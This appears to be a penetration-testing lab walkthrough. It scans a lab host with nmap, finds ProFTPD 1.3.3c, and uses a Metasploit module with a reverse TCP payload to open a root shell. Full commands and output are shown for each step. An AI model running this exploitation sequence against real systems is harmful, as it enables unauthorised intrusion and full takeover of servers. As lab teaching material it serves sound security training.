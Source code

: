 # Steps for lab 2

## Step 1 - Search for exploits on target

```bash
nmap -sC -sV 10.5.0.254
```

```markdown
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
80/tcp open  http    Apache httpd 2.4.10 ((Debian) PHP/5.5.29)
|_http-server-header: Apache/2.4.10 (Debian) PHP/5.5.29
|_http-title: exploit.co.il : Articles : Tutorials : Reviews : Videos
```

## Step 2 - Use msfconsole

```bash
msfconsole
```

### Step 2.1: Search by service running

```bash
search ProFTPD
use 5
set RHOSTS 10.5.0.254
run
```

```markdown
[-] 10.5.0.254:21 - Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
```

### Step 2.2: Check local host IP

```bash
ifconfig
```

```markdown
eth-lab: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.5.0.1  netmask 255.255.255.0  broadcast 0.0.0.0
```

### Step 2.3: Try payload one by one

```bash
show payloads
set payload 5
set LHOST 10.5.0.1
run
```

```markdown
[*] Started reverse TCP handler on 10.5.0.1:4444
[*] 10.5.0.254:21 - Sending Backdoor Command
[*] Command shell session 1 opened (10.5.0.1:4444 -> 10.5.1.11:46394) at 2023-03-27 03:40:12 +0000
```

## Step 3 - Now you are in the target machine

```bash
whoami
```

```markdown
root
```

```bash
ls
```

```markdown
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
proftpd-1.3.3c
root
run
sbin
srv
sys
tmp
usr
var
```

## Terminal output

- [tmux session 1](tmux1.txt)

- [tmux session 2](tmux2.txt)

